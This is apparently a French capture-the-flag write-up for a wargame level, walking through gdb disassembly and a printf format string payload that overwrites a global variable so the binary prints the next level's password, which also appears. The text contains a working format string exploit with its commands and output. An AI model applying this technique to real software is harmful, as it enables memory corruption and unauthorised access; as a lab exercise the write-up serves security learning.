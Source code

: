 # Level 4

Ce niveau est très similaire au [niveau précédent](/level3/README.md). Cependant ici la fonction `system` fait directement un `cat` du fichier `.pass` de l'utilisateur level5.  
En examinant l'asm, `m` doit contenir la valeur `0x1025544` (soit 16930116 en décimal). La variable `m` se situe à l'adresse `08049810` (soit `\x10x98\x04\x08` en *little-endian*).  
`fgets` ne prend que 512 caractères, mais avec `printf` on peut créer un padding suffisant sans pour autant dépasser 512 caractères.

```sh
~ gdb level4
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x080484ad <+6>:	call   0x8048457 <n>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
~ ./level4
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
BBBB b7ff26b0 bffff654 b7fd0ff4 0 0 bffff618 804848d bffff410 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520
~ python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' > /tmp/level4
~ cat /tmp/level4 | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```